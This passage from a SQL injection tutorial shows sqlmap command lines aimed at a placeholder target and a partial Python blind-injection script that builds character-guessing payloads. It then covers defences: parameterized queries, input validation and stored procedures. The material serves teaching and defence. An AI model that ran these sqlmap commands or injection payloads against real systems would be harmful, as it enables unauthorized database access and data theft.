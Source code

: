 While manual testing is crucial, automation can speed up the process:

### SQLMap Usage

```bash
# Basic usage
sqlmap -u "http://target.com/page.php?id=1"

# Advanced options
sqlmap -u "target.com" --forms --crawl=2 --random-agent --batch --threads=5
```

### Custom Python Scripts

```python
import requests
import string
import time

def blind_sqli(url, injection_point):
    database_name = ""
    for position in range(1, 20):
        for char in string.ascii_lowercase + string.digits:
            payload = f"' AND (SELECT SUBSTRING(database(),{position},1))='{char}'--"
            # Test payload and check response
```

## Defense Strategies

Understanding attacks helps implement better defenses:

### Parameterized Queries

```python
# Vulnerable
query = f"SELECT * FROM users WHERE id = {user_id}"

# Secure
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```

### Input Validation

```python
def validate_input(user_input):
    if not user_input.isdigit():
        raise ValueError("Invalid input")
    return int(user_input)
```

### Stored Procedures

```sql
CREATE PROCEDURE GetUser(@UserID INT)
AS
BEGIN
    SELECT * FROM Users WHERE ID = @UserID
END
```
